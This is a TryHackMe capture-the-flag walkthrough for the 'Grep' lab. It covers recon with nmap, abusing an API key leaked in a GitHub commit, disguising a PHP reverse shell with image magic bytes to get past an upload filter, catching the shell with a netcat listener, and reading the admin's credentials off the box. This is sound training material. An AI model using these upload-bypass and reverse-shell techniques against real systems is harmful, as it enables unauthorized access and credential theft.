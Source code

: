 # THM - Grep

#### Ip: 10.10.46.254
#### Name: Grep
#### Difficulty: Easy

----------------------------------------------------------------------

![grep.png](../assets/grep_assets/grep.png)


```text
A challenge that tests your reconnaissance and OSINT skills.

Welcome to the OSINT challenge, part of TryHackMe’s Red Teaming Path. In this task, you will be an ethical hacker aiming to exploit a newly developed web application.

SuperSecure Corp, a fast-paced startup, is currently creating a blogging platform inviting security professionals to assess its security. The challenge involves using OSINT techniques to gather information from publicly accessible sources and exploit potential vulnerabilities in the web application.

Start by deploying the machine; Click on the Start Machine button in the upper-right-hand corner of this task to deploy the virtual machine for this room.

Your goal is to identify and exploit vulnerabilities in the application using a combination of recon and OSINT skills. As you progress, you’ll look for weak points in the app, find sensitive data, and attempt to gain unauthorized access. You will leverage the skills and knowledge acquired through the Red Team Pathway to devise and execute your attack strategies.
```

Lets scan the target using Nmap. Here I will use the `-p-` falg to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ sudo nmap -p-  --min-rate 10000 10.10.46.254 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 11:00 CDT
Nmap scan report for 10.10.46.254
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 385bafb4588f5622751331671f85fc2c (RSA)
|   256 489529399f1327e14d415ac237359588 (ECDSA)
|_  256 2766c38bc7c95633f78e2e52541ebe65 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp   open  ssl/http Apache httpd 2.4.41
| ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2023-06-14T13:03:09
|_Not valid after:  2024-06-13T13:03:09
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
51337/tcp open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: Host: ip-10-10-46-254.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Lets add grep.thm to our `/etc/hosts` folder. 

We can now access the site on port 443:

![searchme.png](../assets/grep_assets/searchme.png)

Trying to register a new user we get an error message.

![expired.png](../assets/grep_assets/expired.png)

Heading over to GitHub, if we search `SearchME language:PHP ` we find an interesting repo:
https://github.com/supersecuredeveloper/searchmecms/blob/main/api/upload.php

![progress.png](../assets/grep_assets/progress.png)

# Question 1

```text
What is the API key that allows a user to register on the website?
```

If we take a look at the commit history in the API > register.php file, we find the initial commit contained the API key hardocded:

![api_key.png](../assets/grep_assets/api_key.png)

# Question 2

```text
What is the first flag?
```

Armed with this API key I can capture the registration in Burp, and simply update the api-key field.

![burp.png](../assets/grep_assets/burp.png)

I can now logon as my created user and grab the first flag:

![flag1.png](../assets/grep_assets/flag1.png)

# Question 3

```text
What is the email of the "admin" user?
```

Back in the GitHub repo we also find code for `/upload.php` and the code shows the file upload only accepts images with certain magic bytes, and also provides us the upload path.

![upload_code.png](../assets/grep_assets/upload_code.png)

Lets grab a copy of PentestMonkey's php-reverse-shell.php code and make a couple of updates. 

First we'll need to update our IP and the port we'll be listening on:

![php.png](../assets/grep_assets/php.png)

The we can head over to cyberchef and add the magic bytes listed in the GitHub code to the hex:

![cyber.png](../assets/grep_assets/cyber.png)

From here we can upload our file:

![worked.png](../assets/grep_assets/worked.png)

Now we can set up a netcat listener, navigate to http://grep.thm/api/uploads, select our reverse shell file, and trigger the shell:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.217.227] 43686
Linux ip-10-10-217-227 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 18:59:48 up 6 min,  0 users,  load average: 0.18, 0.85, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ip-10-10-217-227:/$ 
```

Browsing around the target we find a file called users.sql with the administrator's email:

![email.png](../assets/grep_assets/email.png)

# Question 4

```text
What is the host name of the web application that allows a user to check an email for a possible password leak?
```
Browsing around the box more, the question seems to indicate we're looking for another domain in use. Running `cat /etc/hosts` we can see what else is in use by this IP:

![leak.png](../assets/grep_assets/leak.png)

# Question 5

```text
What is the password of the "admin" user?
```

After adding the above to our own `/etc/hosts` file we can navigate to the site (after trying the different open ports revealed in our Nmap scans) and find the admin's password:

![password.png](../assets/grep_assets/password.png)

Thanks for following along!

-Ryan 

-------------------------------------------------------
